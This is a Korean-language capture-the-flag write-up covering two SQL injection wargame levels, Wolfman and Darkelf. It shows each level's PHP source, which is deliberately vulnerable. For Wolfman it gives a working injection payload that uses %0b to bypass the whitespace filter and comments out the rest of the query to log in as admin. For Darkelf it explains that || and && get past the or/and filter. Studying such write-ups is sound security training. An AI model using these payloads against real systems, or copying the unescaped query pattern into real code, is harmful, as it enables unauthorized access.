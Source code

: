 ## Wolfman
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```
### exploit
공백이 필터링되어있어서 사용할 쿼리 값에 공백이 있으면 안된다.<br>
공백만 주의하면 쉽게 문제를 해결할 수 있다.

[공백을 우회하는 방법](https://binaryu.tistory.com/31)은 이 블로그를 참고하여 만들었다.

%0b를 사용하여 공백을 우회하였다.
```sql
select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'
-> select id from prob_wolfman where id='guest' and pw=''%0bor%0bid='admin'--%0b-'
payload = '%0bor%0bid='admin'--%0b-
```
<br>

## Darkelf
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
```
### exploit
**or**과 **and**를 필터링하기 때문에 기존에 사용하던 쿼리를 사용할 수 없다.<br>
하지만 or과 and를 ||과 &&로 대체하여 쉽게 우회할 수 있다.
